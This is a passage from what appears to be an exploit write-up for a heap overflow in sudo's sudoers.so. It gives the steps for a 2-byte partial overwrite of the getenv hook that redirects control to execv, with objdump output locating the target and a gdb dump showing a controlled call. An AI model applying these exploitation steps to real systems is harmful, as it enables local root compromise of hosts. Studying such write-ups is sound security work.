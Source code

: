 2) Search the offset and position of `hooks->u.getenv_fn()`, this will be the function we will use to perform the partial overwrite to redirect control flow to an `execv()` located at `sudoers.so` (which is loaded in the memory space)

3) Craft the exploit with a bruteforce for the partial overwrite (2 bytes)

```
lockedbyte@pwn:~$ objdump -D /usr/lib/sudo/sudoers.so -Mintel | grep "<execv"
0000000000008a00 <execv@plt>:
    8a04:	f2 ff 25 65 55 05 00 	bnd jmp QWORD PTR [rip+0x55565]        # 5df70 <execv@GLIBC_2.2.5>
   17d1a:	e8 e1 0c ff ff       	call   8a00 <execv@plt>
```

I am actually jumping to `0x8a04` to avoid that NULL byte.

### Reached exploitation point

```
Program received signal SIGSEGV, Segmentation fault.
0x0000555555566502 in ?? ()
rax            0x0                 0
rbx            0x555555583650      93824992425552
rcx            0x7                 7
rdx            0x4242424242424242  4774451407313060418
rsi            0x7fffffffe770      140737488349040
rdi            0x7ffff797464d      140737347274317
rbp            0x7ffff797464d      0x7ffff797464d
rsp            0x7fffffffe770      0x7fffffffe770
r8             0x7ffff7f61081      140737353486465
r9             0x7fffffffe6d0      140737488348880
r10            0xffffffff          4294967295
r11            0x202               514
r12            0x7fffffffe770      140737488349040
r13            0x7fffffffe7b0      140737488349104
r14            0x7fffffffe818      140737488349208
r15            0x2                 2
rip            0x555555566502      0x555555566502
eflags         0x10206             [ PF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
k4             0x0                 0
k5             0x0                 0
k6             0x0                 0
k7             0x0                 0
=> 0x555555566502:	callq  *0x8(%rbx)
(gdb) i r rbx
rbx            0x555555583650      93824992425552
(gdb) x/8x 0x555555583650
0x555555583650:	0x42424242	0x42424242	0x42424242	0x42424242
0x555555583660:	0x42424242	0x42424242	0x42424242	0x42424242
(gdb) 
```
